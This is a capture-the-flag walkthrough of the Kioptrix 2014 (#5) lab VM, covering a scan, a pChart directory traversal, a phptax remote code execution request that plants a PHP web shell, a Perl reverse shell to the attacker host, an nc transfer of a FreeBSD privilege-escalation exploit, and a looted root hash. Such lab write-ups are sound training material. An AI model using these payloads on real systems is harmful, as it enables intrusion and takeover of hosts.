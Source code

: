 [VulnHub] Kioptrix: 2014 (#5)
===============
date: 09/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_kioptrix5/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds
```

2\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_vulnhub_kioptrix5/screenshot02.png.webp)  

![writeup.enumeration.steps.2.3](/static/files/posts_vulnhub_kioptrix5/screenshot03.png.webp)  

### Findings
#### Open Ports
```
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
```
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot06.png.webp)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
```
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot07.png.webp)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot08.png.webp)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
```
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_kioptrix5/screenshot09.png.webp)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_kioptrix5/screenshot10.png.webp)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_kioptrix5/screenshot11.png.webp)  

![writeup.exploitation.steps.4.4](/static/files/posts_vulnhub_kioptrix5/screenshot12.png.webp)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
```
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_kioptrix5/screenshot13.png.webp)  

![writeup.exploitation.steps.5.2](/static/files/posts_vulnhub_kioptrix5/screenshot14.png.webp)  

## Phase #2.5: Post Exploitation
```
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
```
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot15.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot16.png.webp)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot17.png.webp)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_kioptrix5/screenshot18.png.webp)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_kioptrix5/screenshot19.png.webp)  

2\. We can now view the `congrats.txt` file to complete the challenge:  
```
cat /root/congrats.txt
```
![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot20.png.webp)  

## Loot
### Hashes
```
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
* <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
* <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
* <https://jhalon.github.io/vulnhub-kioptrix5/>  
